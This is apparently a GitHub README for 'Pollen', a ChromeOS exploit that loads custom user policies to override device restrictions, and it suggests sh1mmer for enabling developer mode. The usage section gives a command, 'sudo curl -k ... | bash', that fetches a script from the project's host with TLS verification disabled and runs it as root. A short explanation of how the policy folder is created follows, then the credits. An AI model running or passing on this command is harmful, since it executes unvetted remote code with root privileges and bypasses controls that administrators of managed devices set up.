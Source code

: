 # Pollen
Pollen is an exploit that allows you to load custom User Policies.

## How To Use
Note: Devmode **NEEDS** to be enabled. Use some sort of exploit like sh1mmer to enable devmode
- Open Crosh (ctrl+alt+t)
- Type In `shell`
- Type In `sudo curl -k https://pollen.scarat3k.me/Pollen.sh | bash`

## How It Works
It works by loading a custom user policy in to CrOS. (Similar to how policies on windows work)\
Using this we can either disenable RootFS or temporarily to load it.\
CrOS does not have the folder to load it built-in, however the src code is still there so we can manually create it.\
Then simpily we just create the file and restart.

## Credits
Cotton & Pollen Developer - Scarat3k
- Discovery Of Exploit - Rafflesia
- Original Script Developer - OlyB
- Providing User Policy Base - Ethonic
